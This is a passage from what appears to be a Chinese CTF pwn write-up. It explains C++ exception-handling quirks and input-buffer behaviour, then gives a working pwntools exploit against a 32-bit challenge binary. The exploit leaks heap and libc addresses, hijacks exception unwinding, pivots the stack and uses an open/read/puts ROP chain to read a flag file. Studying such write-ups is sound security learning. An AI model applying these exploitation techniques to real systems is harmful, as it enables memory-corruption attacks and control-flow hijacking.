
在 _cxa_begin_catch 中，跳转到 ebx+0x1c 处存放的地址，就是这里



    但要注意，strcat 之后被覆盖的内容可能会在异常处理函数中被使用；如果粗暴地用 0xffffffff 覆盖，会发生段错误，所以尽量保持与原始数据相同


5. 当输入缓冲区开头有一个 \n 时，gets/fgets 等从输入缓冲区读取的函数不会再读取更多数据（它们会先检查缓冲区，再把 stdin 读入缓冲区）
       使用 `std::cin` 配合 `>>` 运算符进行输入时，空白字符（包括空格、制表符、换行符等）默认作为分隔符。这意味着从 `std::cin` 读取数据到变量时，例如 `int a; std::cin >> a;`，一旦遇到空格或换行符，`cin` 就会停止读取，空格之后剩余的输入会留在输入缓冲区中。这对于分隔以空格分隔的输入数据非常有用，例如输入一系列整数或单词时。

    但要注意，这并不意味着 `cin` 把空格当作“终止符”并保留它们不读取；相反，它用这些空白字符来决定何时停止当前的数据读取过程。实际上，这些空格及其后面的字符（直到下一个非空白字符或 EOF）仍然留在缓冲区中，等待后续的读取操作或手动清理。


# exp 与思路
~~直接把思路和 exp 一起看就行，注释应该还算清楚~~ 参考文章已经写得非常详细了

```python
from pwn import *
context(os = 'linux', arch = 'i386', log_level = 'debug')

io = process("./pwn")
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context.terminal = ["tmux", 'splitw', '-h'] 
# 空格作为
def menu(choice):
    io.sendafter("Please input your choice >> ", str(choice) + " ")

def add(typ, content):
    menu(1)
    io.sendafter("Which type do you want to create?\n", str(typ) + " ")
    io.sendafter("Please enter the content >> ", content + b" ")

def edit(idx, content):
    menu(2)
    io.sendafter("Which one do you want to update?\n", str(idx) + " ")
    io.sendafter("Please enter the new content >> ", content + b" ")

def show(idx):
    menu(3)
    io.sendafter("Which one do you want to display?\n", str(idx) + " ") 


# for i in range(8) :
#     add(0,b"12345678"*8)       # 因为edit时会free然后malloc此时free的大小是之前的字符串长度而malloc大小取决输入字符串长度

                        

# for i in range(8) :
#     edit(i,p32(0x12345678))    
# show(7)       # 由于字符串空字符，会截断


# 采用type1类型update得到unsortedbin中的chunk，show会根据偏移4的位置输出偏移0的长度的内容
add(1,b"12345678")
for i in range(8) :
     add(0,b"12345678"*16) 

for i in range(8) :
    edit(i+1,p32(0x12345678))  # 将tcache塞满并且uunsortedbin出现一个分割后剩余的


edit(0,b"12345678"*2)  # 由于为了是的edit分配到的是unsortedbin而不是tcache中的 ，先free到tcache中
# 同时是的下次edit不是从刚free的chunk中取出来
add(0,b"12345678")                      # 然后得到tcache中的，这样当下次edit会从unsortedbin取出来


edit(0,p32(0x111111))      #不能正好满足是unsotedbin中的大小，否则没有残留的libc地址
# 将原来的fd位置的高位覆盖为0因为是作为长度参数，不能为负数
show(0) #相当与输出malloc_state这个结构体,里面存在一些存储libc地址的变量和还有存储heap地址的变量
                # 所以一次性泄漏heap地址和libc地址
io.recvuntil(b"Content: ")
heap=io.recv(4)
heap=u32(heap) #虚表在堆上的地址  
print("heap",hex(heap))
libcbase=io.recvuntil(b"\xf7")[-4:]
libcbase=u32(libcbase)-0x1e8780
print("libcbase",hex(libcbase))


edit(0,p32(0xfffffff6)+p32(heap- 0x798)) #输入存在零截断  所以必须满4个字节，但因为又需要小于输出的strlen字节数0xe个，     （v1 + 10-1 +16）/16 ×16只能低12比特有值不然陷入死循环
show(0)                                  #比较的时候是用v1 + 10-1 是无符号比较，此时为v1为-10,-11可以满足但不知道为啥只有-10行

io.recvuntil(b"Content: ")
pie=io.recv(4)
pie=u32(pie) #虚表在堆上的地址  
print("pie",hex(pie))

pop_ebp_ret = libcbase + 0x1a973
leave_ret = libcbase + 0x110226
unwind_ret = pie -0x4e0c+ 0x2044


payload = b'\xff\xff\xff' + p32(pie+0x11)+p32(pie-0x2b11)+p32(libcbase+0x111)+p32(0xffffffff)+p32(heap-0x798)+p32(libcbase+0x3ddca0)+p32(0xffffffff)+p32(heap+0x10)+p32(0xffffffff)+p32(heap + 0x10+0x43-0x1c)+p32(heap + 0x10+0x43-0x1c)
payload += p32(heap + 0x10+0x43-12-4) + p32(unwind_ret)   # 回到main函数中的catch会复原这个rbp 和 可以catch到的在main函数中的地址
payload += p32(libcbase + libc.sym['gets']) + p32(pop_ebp_ret) + p32(libcbase + libc.sym['__free_hook']) + p32(leave_ret)
# 由于到达main函数时此时rbp为之前溢出覆盖后的rbp，如果此时执行leave ret就能实现栈迁移，


edit(0, p32(0xffffffff)+p32(0xffffffff)+payload)  # 由于下次edit分配会将其free此时fd和bk部分会被覆盖，为了防止覆盖到gadget，将gaget位置设置在偏移8

gdb.attach(io)
edit(0, p32(0xffffffff) +p32(heap + 0x10)) 
# 这里-1  v1 + 10-1为8 构成抛出异常然后溢出
show(0)

add_esp_8_ret = libcbase + 0x2fbe9
add_esp_c_ret = libcbase + 0x83d12

orw_rop = b"\xff\xff\xff"+ p32(libcbase + libc.sym['open']) + p32(add_esp_8_ret)  + p32(libcbase + libc.sym['__free_hook'] + 0x34) + p32(0)
orw_rop += p32(libcbase + libc.sym['read']) + p32(add_esp_c_ret) + p32(3) + p32(libcbase + libc.sym['__free_hook'] + 0x100) + p32(0x50)
orw_rop += p32(libcbase + libc.sym['puts']) + p32(0xffffffff) + p32(libcbase + libc.sym['__free_hook'] + 0x100) + b'./flag\x00'
 # 注意32位的传惨方式
 # 函数地址 变化rsp gadget地址 参数  函数地址
io.sendline(orw_rop)  # 这里还是遇到换行符才截止

io.interactive()
```

